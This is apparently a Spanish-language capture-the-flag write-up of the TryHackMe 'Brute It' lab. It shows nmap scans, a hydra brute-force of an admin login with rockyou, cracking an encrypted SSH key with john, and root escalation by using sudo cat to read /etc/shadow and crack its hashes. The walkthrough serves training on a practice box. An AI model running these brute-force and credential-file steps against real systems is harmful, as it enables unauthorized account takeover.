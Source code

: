 ```yaml
---
layout: single
title: Brute It - TryHackMe
excerpt: " Brute It a beginner-friendly challenge by TryHackMe. It is separated into three tasks reconnaissance, getting a shell, and privilege escalation with questions along the way to guide you throughout the engagement. It is a bit more hand-holding but was a fun challenge nonetheless. This box requires you to brute force, crack hashes, and escalate privileges to root. "
date: 2022-10-10
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-bruteit/bruteit.jpg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - john
  - hydra
  - ssh
  - sudoer
  - cat
---
```


Brute It a beginner-friendly challenge by TryHackMe. It is separated into three tasks reconnaissance, getting a shell, and privilege escalation with questions along the way to guide you throughout the engagement. It is a bit more hand-holding but was a fun challenge nonetheless. This box requires you to brute force, crack hashes, and escalate privileges to root.

# Summary
- IP: 10.10.220.132
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.220.132 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p22,80 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de directorios web:

```bash
$nmap --script http-enum -p80 10.10.220.132 -oN webSCan
```

- Encontramos el directorio "/admin" lo examinamos y vemos una página de logeo, analizando el código fuente encontramos el usuario "admin", hacemos ataque de fuerza bruta al login usando el usuario encontrado:

```bash
$hydra -l admin -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.220.132 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

- Encontramos la contraseña para el usuario "admin" accedemos y vemos un mensaje que nos redirige a un "id_rsa" el cual contiene la clave privada SSH encriptada del usuario "john", la crackeamos con john:

```bash
$nano id_rsa

$chmod 600 id_rsa

$/usr/share/john/ssh2john.py id_rsa > id_rsa.txt

$john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt id_rsa.txt
```

- Ecnontramos la contraseña para el usuario "john", accedemos via SSH usando el archivo rsa:

```bash
$ssh -i id_rsa jhon@10.10.220.132
```

- Encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Buscamos binarios con permisos de ejecutar como root sin contraseña:

```bash
$sudo -l
```

- Encontramos el binario "cat", aprovechamos para leer el archivo "/etc/shadow":

```bash
$sudo cat /etc/shadow
```

- Copiar en un archivo el contenido del archivo shadows e intentar crackear contraseñas de usuarios con john:

```bash
nano shadow

john shadow
```


- Encontramos la contraseña de root, accedemos y encontramos la última flag.
